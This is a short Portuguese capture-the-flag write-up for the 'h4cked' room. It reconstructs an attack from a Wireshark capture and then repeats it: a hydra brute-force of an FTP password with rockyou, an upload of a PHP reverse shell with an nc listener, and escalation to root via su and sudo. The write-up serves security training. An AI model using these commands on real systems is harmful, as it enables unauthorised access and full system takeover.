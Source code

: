 # h4cked

---

>#### Write-Up by VESPAS 
>##### ***Written by:*** Augusto Graeml (gra3ml)
>##### ***Redacted by:*** Gabriel Rossetto (R0SSETT0)

_![Imagem](wireshark.jpg)_

## Primeira parte
- Siga a ordem dos pacotes no wireshark, durante a etapa de descoberta no FTP
- Após o acesso, clique no pacote de acesso e vá para "follow" , "TCP Stream"
- Leia atentamente os passos que o atacante realizou 
## Segunda parte
-> Rode o hydra no usuário
``` bash
hydra -l jenny -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ftp://<IP>
```
-> Faça upload de uma rev shell pro servidor ftp
- Login no ftp com a senha da jenny
- put arquivo.php (que estava no seu diretório)
- seta as permissões do arquivo (chmod 777 arquivo.php)

-> Setup de um listener na sua máquina com o nc na porta especificada
``` bash
nc -lvnp <PORTA>
```
-> Acesse a rev shell pelo servidor web: ``http://IP_MAQUINA/arquivo.php``

-> **Become root!**
- Seguindo os passos de escalada de privilégio usado pelo atacante:
``` bash
su jenny
sudo su
cd /root
```
#### Voila sua flag!!
##	# Room Finalizada!